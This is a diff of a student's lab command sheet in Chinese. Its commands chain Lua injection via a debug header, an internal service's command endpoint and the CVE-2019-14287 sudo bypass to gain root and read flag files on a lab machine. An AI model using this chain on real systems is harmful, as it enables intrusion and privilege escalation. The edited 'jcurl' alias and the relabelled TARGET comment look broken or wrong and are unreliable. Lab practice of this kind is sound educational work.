

Before and after one commit to reyliou/412630567-Lab, a Markdown page: all_command.md, 2 parts joined by grey strips. Drawn GitHub-style.

Commit message:
Update comments and commands in all_command.md

````diff
--- a/all_command.md
+++ b/all_command.md
@@ -6,10 +6,9 @@
 ## 環境設定
 
 ```bash
-# TARGET為靶機IP
+# TARGET為攻擊機IP
 $TARGET
 export TARGET=192.168.17.133
-#這是我的靶機IP別搞我
 
 #設curl=jcurl+讀懂中文編碼的指令
 alias jcurl='curl -s | python3 -c "import sys,json; d=json.load(sys.stdin); print(json.dumps(d, ensure_ascii=False, indent=2))"'
@@ -17,6 +16,7 @@ alias jcurl='curl -s | python3 -c "import sys,json; d=json.load(sys.stdin); prin
 ```
 
 ---
+
 
 ## 第一階段：資訊挖掘
 
@@ -113,7 +113,7 @@ curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/
   http://$TARGET:8080/api/debug-system
 
 # CVE-2019-14287 確認提權成功
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 id\\\"}\""):read("*a"))' \
+curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c id\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 ```
 
@@ -123,14 +123,14 @@ curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/
 
 ```bash
 # 生成 Flag（學號換成自己的）
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /root/flag.sh 你的學號\\\"}\""):read("*a"))' \
+jcurl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /root/flag.sh 你的學號\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 
 # 讀取 Root Flag
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c \\\\\\\"cat /root/root_flag.txt\\\\\\\"\\\"}\""):read("*a"))' \
+jcurl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"sudo -u#-1 /bin/bash -c \\\\\\\"cat /root/root_flag.txt\\\\\\\"\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 
 # 讀取 User Flag
-curl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"cat /home/neo-user/user_flag.txt\\\"}\""):read("*a"))' \
+jcurl -s -H 'X-NEO-DEBUG: ngx.say(io.popen("curl -s -X POST http://neo-mall:8080/api/seller/diag -H \"Content-Type: application/json\" -d \"{\\\"command\\\":\\\"cat /home/neo-user/user_flag.txt\\\"}\""):read("*a"))' \
   http://$TARGET:8080/api/debug-system
 ```
````
